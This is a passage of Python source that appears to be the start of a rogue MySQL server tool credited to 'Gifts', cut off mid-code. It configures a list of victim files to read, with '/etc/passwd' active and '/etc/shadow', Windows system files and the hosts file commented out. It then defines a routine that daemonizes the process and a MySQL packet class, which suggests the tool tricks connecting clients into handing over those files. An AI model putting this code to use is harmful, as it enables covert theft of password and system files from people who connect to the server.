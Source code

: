 ```python
    tmp_format
)

filelist = (
#    r'c:\boot.ini',
#    r'c:\windows\win.ini',
#    r'c:\windows\system32\drivers\etc\hosts',
   '/etc/passwd',
#    '/etc/shadow',
)


#================================================
#=======No need to change after this lines=======
#================================================

__author__ = 'Gifts'

def daemonize():
    import os, warnings
    if os.name != 'posix':
        warnings.warn('Cant create daemon on non-posix system')
        return

    if os.fork(): os._exit(0)
    os.setsid()
    if os.fork(): os._exit(0)
    os.umask(0o022)
    null=os.open('/dev/null', os.O_RDWR)
    for i in xrange(3):
        try:
            os.dup2(null, i)
        except OSError as e:
            if e.errno != 9: raise
    os.close(null)


class LastPacket(Exception):
    pass


class OutOfOrder(Exception):
    pass


class mysql_packet(object):
    packet_header = struct.Struct('<Hbb')
    packet_header_long = struct.Struct('<Hbbb')
    def __init__(self, packet_type, payload):
        if isinstance(packet_type, mysql_packet):
            self.packet_num = packet_type.packet_num + 1
        else:
            self.packet_num = packet_type
        self.payload = payload

    def __str__(self):
        payload_len = len(self.payload)
        if payload_len < 65536:
            header = mysql_packet.packet_header.pack(payload_len, 0, self.packet_num)
        else:
            header = mysql_packet.packet_header.pack(payload_len & 0xFFFF, payload_len >> 16, 0, self.packet_num)

```
